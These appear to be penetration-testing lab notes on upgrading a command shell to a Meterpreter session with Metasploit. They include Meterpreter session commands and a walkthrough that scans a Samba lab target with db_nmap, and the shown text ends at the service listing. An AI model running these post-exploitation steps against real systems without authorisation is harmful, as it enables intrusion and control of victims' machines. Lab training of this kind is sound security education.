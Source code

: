 ```
sessions -u 1
```

```
sessions
sessions 3
meterpreter > sysinfo
meterpreter > getuid # Get the current user id that we currently have access to.
```

That is the process of upgrading your command shell into a Meterpreter session. And the reason this is important, as we explored earlier during the exploitation section, is because some exploit modules may not support the ability to pair a Meterpreter payload to begin with. The only way to gain initial access is through a command shell. And once you've gained initial access and established a command shell session, you can then upgrade it either through mannually loading the `shell_to_meterpreter` post-exploitation module, or you can automate that process through the `sessions` command.

# Upgrading Command Shells To Meterpreter Shells
## Overview
Goal

This lab covers the process of upgrading a command shell to a meterpreter session.

```
root@attackdefense:~# ifconfig
eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.195.144.2  netmask 255.255.255.0  broadcast 192.195.144.255
        ether 02:42:c0:c3:90:02  txqueuelen 0  (Ethernet)
```

Target IP Address: 192.195.144.3

```
root@attackdefense:~# service postgresql start && msfconsole -q
[ ok ] Starting PostgreSQL 11 database server: main.
msf5 > workspace -a upgrading_shells
[*] Added workspace: upgrading_shells
[*] Workspace: upgrading_shells
msf5 > setg RHOSTS 192.195.144.3
RHOSTS => 192.195.144.3
msf5 > db_nmap -sV 192.195.144.3
[*] Nmap: Starting Nmap 7.70 ( https://nmap.org ) at 2023-02-09 14:21 UTC
[*] Nmap: Nmap scan report for target-1 (192.195.144.3)
[*] Nmap: Host is up (0.0000090s latency).
[*] Nmap: Not shown: 998 closed ports
[*] Nmap: PORT    STATE SERVICE     VERSION
[*] Nmap: 139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
[*] Nmap: 445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
[*] Nmap: MAC Address: 02:42:C0:C3:90:03 (Unknown)
[*] Nmap: Service Info: Host: VICTIM-1
[*] Nmap: Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 11.54 seconds
msf5 > services
Services
========

host           port  proto  name         state  info
----           ----  -----  ----         -----  ----
192.195.144.3  139   tcp    netbios-ssn  open   Samba smbd 3.X - 4.X workgroup: WORKGROUP
192.195.144.3  445   tcp    netbios-ssn  open   Samba smbd 3.X - 4.X workgroup: WORKGROUP
```
